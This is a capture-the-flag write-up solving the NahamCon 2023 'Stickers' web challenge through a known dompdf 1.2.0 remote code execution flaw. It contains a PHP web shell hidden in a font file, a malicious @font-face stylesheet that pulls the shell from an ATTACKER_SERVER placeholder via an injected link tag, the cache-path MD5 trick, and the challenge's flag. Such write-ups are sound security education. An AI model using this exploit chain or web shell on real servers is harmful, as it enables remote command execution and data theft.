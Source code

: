 ```yaml
---
CTF: Nahamcon 2023
Challenge Name: Stickers
Category: Web
Date: 15/06/23
Author: congon4tor
Points: 380
Solves: 157
---
```

[![Nahamcon CTF 2023: Stickers (Web)](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=247 "Nahamcon CTF 2023: Stickers (Web)")

### Description
>Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website!
>Find the flag file in /flag.txt at the root of the filesystem.

## Solution
Tried various payloads in form, but there are some restrictions, e.g. email must be email format, others must be numbers. Successfully inserted `{{7 * 7}}` as the name, but it just rendered as text.

When we submit, the URL looks like: http://challenge.nahamcon.com:32110/quote.php?organisation=%7B%7B7+*+7%7D%7D&email=a%40a.com&small=1&medium=1&large=1

We get a PDF receipt, containing the information from the URL parameters.

Don't see the request in burp HTTP history, need to change the filter to include binary.

When we do that and scroll through the response, we find the version `þÿdompdf 1.2.0`.

Google it: https://github.com/positive-security/dompdf-rce

The PoC works, we just need to update URL's, MD5 hash and the payload. However, this article shows the full manual process with a more in depth explanation:
https://exploit-notes.hdks.org/exploit/web/dompdf-rce

Copy a true type font to php file.
```bash
find / -name "*.ttf" 2>/dev/null
cp /path/to/example.ttf ./evil.php
```

Add a shell at the bottom of the file.
```php
<?php system($_REQUEST["cmd"]); ?>
```

Create a malicious CSS, the info in here is important for accessing the uploaded PHP file, i.e. `/dompdf/lib/fonts/<font_name>_<font_weight/style>_<md5>.php`.
```css
@font-face {
  font-family: 'evil';
  src: url('http://ATTACKER_SERVER/evil.php');
  font-weight: 'normal';
  font-style: 'normal';
}
```

Create a python web server and expose using ngrok.
```
sudo python -m http.server 80
ngrok http 80
```

Make a request containing the malicious stylesheet.
```bash
http://challenge.nahamcon.com:32110/quote.php?organisation=<link rel=stylesheet href='http://ATTACKER_SERVER/exploit.css'>&email=a%40a.com&small=1&medium=1&large=1
```

Calculate the MD5 of the malicious PHP URL.
```bash
echo -n http://ATTACKER_SERVER/evil.php | md5sum

b8e6174c9d5ee52c9b35647ffbd20856
```

Access the URL: http://challenge.nahamcon.com:32110/dompdf/lib/fonts/evil_normal_b8e6174c9d5ee52c9b35647ffbd20856.php?cmd=ls

Works! We can now call `cat /flag.txt` and receive the flag.
```bash
flag{a4d52beabcfdeb6ba79fc08709bb5508}
```